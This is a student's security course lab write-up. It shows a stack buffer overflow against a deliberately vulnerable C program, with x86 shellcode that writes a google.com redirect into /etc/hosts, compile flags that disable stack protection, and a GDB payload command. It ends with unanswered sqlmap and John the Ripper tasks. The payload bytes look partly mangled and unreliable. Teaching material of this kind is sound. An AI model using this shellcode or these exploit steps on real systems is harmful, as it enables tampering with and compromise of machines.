


# LAB#1, 22110093, Dinh Thi Thanh Vy, INSE331280E_02FIE
---

# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: 

**Run virtual environment by docker file**


Copy file c and file asm called name vuln.c and run_file.asm

**Run C program**
```
gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```

-m32: biên dịch thành mã 32-bit vì shellcode là 32-bit.
-fno-stack-protector: tắt cơ chế bảo vệ stack.
-z execstack: cho phép thực thi mã trên stack (để chạy shellcode).

**Run asm file**
```
    nasm -g -f elf run_file.asm 
    ld -m elf_i386 -o run_file run_file.o
```

**Get shell code of run_file.asm by this command**
```
for i in $(objdump -d run_file.asm |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```


**We have the shellcode for run_file file as follows:**
```
    \x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65
```

**Stack Frame:**



payload = padding + returnaddress + shellcode
        = 20 bytes + returnaddress(exit of asm file) + shellcode 

Here, we will use the vuln.c program to trigger a buffer overflow

GDB 

run with this command

```
    run $(python -c "print( '\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\xff\x67\x6f\x6f\x67\x6c\x65' + 'x94\x80\x04\x08' + '\xa8\xd6\xff\xff')")
```

set *0xffffd6 = 0x08048094
set {unsigned char} 0xffffd6eb = 0x20
set *0xffffd6eb = 0x20
set *0xffffd6e5 = 0xffffd688


Buffer Size: The buffer is 16 bytes.

Return Address: You need to overwrite the return address after the buffer. Assuming standard stack layout:

Offset = Buffer Size + 4 (for EBP) = 16 + 4 = 20 bytes.


**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
